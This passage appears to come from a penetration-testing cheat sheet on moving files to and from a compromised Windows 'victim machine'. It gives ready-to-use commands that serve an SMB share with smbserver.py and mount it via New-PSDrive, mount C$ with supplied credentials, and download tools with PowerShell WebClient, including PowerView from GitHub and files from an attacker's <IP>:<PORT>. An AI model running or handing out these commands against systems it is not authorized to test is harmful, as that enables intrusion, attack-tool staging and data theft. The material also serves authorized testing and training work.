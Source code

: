 {% hint style="danger" %}
If there are still problems, try to open the server again but with a different name, i.e. change the name "**smbFolder**" to another one, and the same with the **username** and **password**.
{% endhint %}
{% endtab %}

{% tab title="Method 3" %}
### Method 3 (with logical unit in PS)

```shell
# We go to the directory we want to share:
smbserver.py smbFolder $(pwd)
smbserver.py smbFolder $(pwd) -smb2support # For Windows 10 support.
# On the victim machine, we execute:
New-PSDrive -Name "SharedFolder" -PSProvider "FileSystem" -Root "\\<LHOST>\smbFolder" # The "SharedFolder" is just a logical name for the attacking machine, it can be any.
dir SharedFolder:\ # Show shared files.
copy SharedFolder:\<FILE> <PATH>\<RENAME FILE> # Upload file
copy <PATH_TO_FILE> SharedFolder:\<RENAME FILE> # Download file.
```


{% endtab %}

{% tab title="Others" %}
### Logical disks

We can create a logical drive in Windows and mount the C disk by providing the credentials:

```bash
net use x: \\localhost\c$ /user:<USERNAME> <PASSWORD>
x:
```
{% endtab %}
{% endtabs %}

## PowerShell

{% tabs %}
{% tab title="Integrated functions" %}
### Powershell 1

```bash
# With output to the Internet (in real environments):
(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
# No Internet access:
(New-Object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>', '<PATH>\<FILE>')
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>', '<PATH>\<RENAME FILE>')" # MS-DOS
```

### PowerShell Cmdlet (Powershell 3.0 and higher)
